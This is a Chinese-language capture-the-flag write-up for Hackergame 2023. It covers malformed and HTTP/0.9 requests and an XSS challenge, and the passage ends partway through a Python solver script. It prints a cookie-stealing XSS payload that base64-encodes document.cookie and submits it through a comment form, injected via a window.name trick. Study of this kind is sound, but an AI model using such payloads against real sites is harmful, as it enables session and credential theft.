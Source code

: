 ``` plaintext
GET / HTTP/1.1\r\n
Content-Length: 999999999999\r\n
Host: example.com\r\n\r\n
```

我本来是想手动往里塞东西的，但是把网站搞炸了。不过瞎猫碰死耗子搞出来了501，凑巧也过了。

#### Flag 2
谷歌搜索如何才能让HTTP请求不返回状态码，但是答案都告诉我正常的请求一定会返回状态码。不过我找到了[这篇文档](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Basics_of_HTTP/Evolution_of_HTTP)，里面提到了老旧的HTTP/0.9协议是单行的，于是可以构造请求：

``` plaintext
GET /\r\n\r\n
```

得到的响应也是符合HTTP/0.9的响应，没有状态码，得到flag 2。

### 微积分计算小练习 2.0
> [题面和官方题解](https://github.com/USTC-Hackergame/hackergame2023-writeups/blob/master/official/%E5%BE%AE%E7%A7%AF%E5%88%86%E8%AE%A1%E7%AE%97%E5%B0%8F%E7%BB%83%E4%B9%A0%202.0/)

（赛后交流补记）

成绩结算页面很简陋，猜测有XSS的机会，随便输入个“123”进去，再一看源代码：

``` javascript
updateElement("#score", "你的得分是 <b>0</b> 分");
updateElement("#comment", "你留下的评论：123");
```

分数不重要，但是评论的字符串是直接拼接进去的，这里可以想办法修改。

看题目提示可以想到是用`window.open()`打开一个弹出窗口，顺带找到了2021年GeekGame“Q小树洞的一大步”的[题解](https://blog.taoky.moe/2021-11-21/geekgame-v1-wp.html#q%E5%B0%8F%E6%A0%91%E6%B4%9E%E7%9A%84%E4%B8%80%E5%A4%A7%E6%AD%A5)，但是这题环境里没有外网，即使报错也没法输出，所以我的思路卡死在这里了。看了官方题解才想到，成绩结算页面是有用的啊，我构造一个网页，让它把数据从评论的接口给我发出来就行了。

首先先写JavaScript让它把Cookie读出来发到评论里，因为flag可能有特殊字符，需要用Base64编码一下，而且“flag可能会有点长”，还需要截断：

``` javascript
document.getElementsByTagName("textarea")[0].value = btoa(document.cookie).substring(0, 25); document.getElementsByTagName("form")[0].submit();
```

写完之后得想办法在成绩结算页面运行，因为有长度限制，所以直接写在评论里不现实。如何才能运行一段自定义的JavaScript？结合前面提示的弹出窗口，它所有的参数是这样的：

``` javascript
open(url, target, windowFeatures)
```

这个`target`是新开的窗口的名字（`window.name`），所以可以把payload代码扔到这里，然后构造字符串让它运行：

``` plaintext
"+[location=name]+"
```

可以直接通过给`location`赋值来跳转页面我确实是第一次知道，如果写`location.href`过不了检测，`location["href"]`太长了。写个脚本：

``` python
import base64
import re
import requests
import urllib.parse

from pwn import *

token = "<MY TOKEN>"

context(log_level = "error")

session = requests.Session()
session.get(f"http://202.38.93.111:10051/?token={urlencode(token)}")
b64str = ""
```